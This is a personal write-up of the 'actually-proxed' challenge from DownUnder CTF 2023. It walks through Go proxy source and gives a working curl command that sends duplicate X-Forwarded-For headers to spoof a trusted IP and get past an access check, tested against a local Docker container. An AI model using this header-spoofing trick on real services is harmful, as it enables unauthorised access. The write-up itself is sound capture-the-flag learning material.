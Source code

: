 # DownUnder CTF 2023

i was part of the team "The Great Emu War II" in this competition. shoutouts to my fellow team mates, it was fun :)

official github containing the source code of the challenges:

https://github.com/DownUnderCTF/Challenges_2023_Public

for all the following challenges it was extremely helpful to build the docker images with the source code provided by the organizers. that way one could easily play around and test locally before moving onto the real challenge servers. 

## actually-proxed

my attention was first drawn to the server where the custom proxy apparently proxies to, located in the file `cmd/proxy/secret_server/main.go`:

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

it seems that we can get the flag, when the string var `ip` has the value `"31.33.33.7"`, which will never happen under regular circumstances.
`ip` is either finally set in line `ip := strings.Split(r.RemoteAddr, ":")[0]` as the left part of a string containing ip address and port in the format of `IP-ADRESS:PORT` of the remote host (us), left of the `":"`, or set if the http request header value of `"X-Forwarded-For"` is not null. if that is the case, it is always the last part of an array which results in splitting of a string at the `", "` character. consider the following example: the value of `xff` is `"127.0.0.1, 31.33.33.7, 13.37.13.37"`; this would result in the array `["127.0.0.1","31.33.33.7","13.37.13.37"]` for variable `ips`, and to the value `"13.37.13.37"` for `ip`, since `len(ips)-1 = 2` which results in picking the third value from the array!

ok, now i moved onto the source code of the proxy server, located in the file `cmd/proxy/main.go`, where the following loop looked interesting:

```go
for i, v := range headers {
	if strings.ToLower(v[0]) == "x-forwarded-for" {
		headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
		break
	}
}
```

this loop is stopped as soon as the first http header with the name `"x-forwarded-for"` is found. the value of `clientIP` (the value of our remote ip) is then added, resulting in the value of the header and our ip, separated by a `,`, for example: `127.0.0.1, <OUR-IP>`. that means we can never get the flag, right?

the `break` statement means, that we hypothetically can add more request headers with the name `"x-forwarded-for"`, since the rest of the headers are just added to the request sent to the proxy. the capitalization of any character in the name `"x-forwarded-for"` does not matter, since all letters are converted to lower case anyway.
because of the following loop, the last one of the headers with the same name will always be the last added to the string array:
```go
for _, v := range headers {
		value := headerMap[v[0]]

		if value != nil {
			value = append(value, v[1])
		} else {
			value = []string{v[1]}
		}

		headerMap[v[0]] = value
}
```

you can log it for yourself if you add the following after this loop to the source code:
```go
log.Printf("headerMap has value: %s", headerMap)
```

let's try it: 

add `ENV FLAG=THIS_IS_THE_FLAG` for our tests to the Dockerfile (since this environment variable is not set otherwise in the source and only exists on the challenge docker instance), then run `docker build -t proxy .` where the Dockerfile resides. now run this wonderfull app using e.g. `docker run --rm --name proxy -p 127.0.0.1:8080:8080 -it proxy`

now, we can e.g. use curl to send these requests with two request headers with the same name:

`curl -vvv --header 'x-forwarded-for:127.0.0.1' --header 'x-forwarded-for:31.33.33.7' localhost:8080`

BOOM, you got it:

```
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> x-forwarded-for:127.0.0.1
> x-forwarded-for:31.33.33.7
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 16
< Content-Type: text/plain; charset=utf-8
< Date: Mon, 04 Sep 2023 16:59:22 GMT
<
* Connection #0 to host localhost left intact
THIS_IS_THE_FLAG
```

the logs of the headerMap (if you added it to the source):
```
headerMap has value: map[Accept:[*/*] Host:[localhost:8080] User-Agent:[curl/7.68.0] x-forwarded-for:[127.0.0.1, 172.17.0.1 31.33.33.7]]
```

since `127.0.0.1, 172.17.0.1` is the first element and `31.33.33.7` the last element of the string array which arrives at the secret server, we matched the wanted ip.

## xxd-server

**still to document**

## grades_grades_grades

**still to document**
